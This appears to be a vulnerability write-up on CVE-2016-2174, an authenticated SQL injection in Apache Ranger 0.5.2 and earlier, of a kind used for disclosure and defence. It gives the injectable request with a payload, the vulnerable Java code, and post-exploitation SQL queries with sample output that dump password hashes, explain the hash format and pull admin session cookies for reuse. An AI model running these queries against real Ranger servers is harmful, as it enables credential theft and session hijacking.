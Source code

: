 CVE-2016-2174 - Authenticated SQL injection
===========================================

Description
-----------
Apache Ranger =< 0.5.2 is vulnerable to an authenticated SQL injection in the `eventTime` parameter of the following GET request:
```
http://<apache_ranger_IP>:6080/service/plugins/policies/eventTime
?eventTime=' or '1'='1
&policyId=1
```  

The vulnerable code is located in the `org/apache/ranger/db/XXDataHistDao.java` file in the `findObjByEventTimeClassTypeAndId` function:
```
public XXDataHist findObjByEventTimeClassTypeAndId(String eventTime, int classType, Long objId) {
    if (eventTime == null || objId == null) {
        return null;
    }
    try {
        String queryStr = "select obj.* from x_data_hist obj where obj.obj_class_type = "+classType
                + " and obj.obj_id = "+objId + " and obj.create_time <= '" + eventTime + "' ORDER BY obj.id DESC";
        Query jpaQuery = getEntityManager().createNativeQuery(queryStr, tClass).setMaxResults(1);
        
        return (XXDataHist) jpaQuery.getSingleResult();
    } catch (NoResultException e) {
        return null;
    }
}
```  
This vulnerability has been fixed on April 12th 2016 in the [following commit.](https://github.com/apache/incubator-ranger/commit/da3a3233d5679284142eb2887c91a754a0da70b9)

Exploitation
------------
Use `sqlmap` to easily exploit it.


Post-exploitation
-----------------
There are **2 interesting** post-exploitation operations.  

--------------------------
### 1. Dump user credentials
The `x_portal_user` and `x_portal_user_role` tables contain all user information
```
Database: ranger
Table: x_portal_user
[14 columns]
+--------------+---------------+
| Column       | Type          |
+--------------+---------------+
| added_by_id  | bigint(20)    |
| create_time  | datetime      |
| email        | varchar(512)  |
| first_name   | varchar(1022) |
| id           | bigint(20)    |
| last_name    | varchar(1022) |
| login_id     | varchar(767)  |
| notes        | varchar(4000) |
| password     | varchar(512)  |
| pub_scr_name | varchar(2048) |
| status       | int(11)       |
| upd_by_id    | bigint(20)    |
| update_time  | datetime      |
| user_src     | int(11)       |
+--------------+---------------+

Database: ranger
Table: x_portal_user_role
[8 columns]
+-------------+--------------+
| Column      | Type         |
+-------------+--------------+
| added_by_id | bigint(20)   |
| create_time | datetime     |
| id          | bigint(20)   |
| status      | int(11)      |
| upd_by_id   | bigint(20)   |
| update_time | datetime     |
| user_id     | bigint(20)   |
| user_role   | varchar(128) |
+-------------+--------------+
```

Passwords are MD5 hashes in the following format `password{login}`, for instance the hash of the `amb_ranger_admin` account with `admin` as password is `85e5c9e3d39848cbea3c54033bb933ab`:
```
$ echo -n 'admin{amb_ranger_admin}' | md5sum
85e5c9e3d39848cbea3c54033bb933ab  -
```

The following requests dump user information:
* Without a specific filter on their role:
```
select last_name, first_name, email, login_id, password, user_role from x_portal_user, x_portal_user_role where x_portal_user.id = x_portal_user_role.user_id limit 3:
[*] , Admin, , admin, ceb4f32325eda6142bd65215f4c0f371, ROLE_SYS_ADMIN
[*] , rangerusersync, 1457692398755_962_66, ambari-qa, 70b8374d3dfe0325aaa5002a688c7e3b, ROLE_SYS_ADMIN
[*] , keyadmin, 1457692592328_160_91, amb_ranger_admin, a05f34d2dce2b4688fa82e82a89ba958, ROLE_KEY_ADMIN 
```  
* With a specific filter on users with the `ROLE_SYS_ADMIN` role:
```
select last_name, first_name, email, login_id, password, user_role from x_portal_user, x_portal_user_role where x_portal_user.id = x_portal_user_role.user_id and x_portal_user_role.user_role = 'ROLE_SYS_ADMIN' limit 3:
[*] , Admin, , admin, ceb4f32325eda6142bd65215f4c0f371, ROLE_SYS_ADMIN
[*] , rangerusersync, 1457692398755_962_66, amb_ranger_admin, 70b8374d3dfe0325aaa5002a688c7e3b, ROLE_SYS_ADMIN
[*]  , amb_ranger_admin, mktg1@sandbox.hortonworks.com, mktg1, 85e5c9e3d39848cbea3c54033bb933ab, ROLE_SYS_ADMIN
```
The limitation here is the need of cracking hashes.  


-----------------------------------------------------
### 2. Dump and reuse user session "JSESSIONID" cookies
They are stored in the database in the `x_auth_sess` table:
```
Database: ranger
Table: x_auth_sess
[15 columns]
+---------------+---------------+
| Column        | Type          |
+---------------+---------------+
| added_by_id   | bigint(20)    |
| auth_provider | int(11)       |
| auth_status   | int(11)       |
| auth_time     | datetime      |
| auth_type     | int(11)       |
| create_time   | datetime      |
| device_type   | int(11)       |
| ext_sess_id   | varchar(512)  |
| id            | bigint(20)    |
| login_id      | varchar(767)  |
| req_ip        | varchar(48)   |
| req_ua        | varchar(1024) |
| upd_by_id     | bigint(20)    |
| update_time   | datetime      |
| user_id       | bigint(20)    |
+---------------+---------------+
```
The following request dumps user session cookies of admin users recently authenticated on the application:
```
select auth_time, login_id, ext_sess_id from x_auth_sess where auth_status = 1 or (login_id like '%admin%' and auth_status = 1) order by auth_time desc limit 3:
[*] 2016-05-08 13:30:11, admin, DEC6C0A899BB2E8793ABA9077311D8E6
[*] 2016-05-08 13:04:15, stduser, CD4142620CB7ED4186274D53B8E0D59E
[*] 2016-05-08 13:01:26, rangerusersync, D84D98B58FC0F9554A4CABF3E205A5E8
```  

The complete database schema of the vulnerable version can be found [here.](https://cwiki.apache.org/confluence/display/RANGER/Ranger+0.5.0+Database+Schema)  

References
----------
https://cwiki.apache.org/confluence/display/RANGER/Vulnerabilities+found+in+Ranger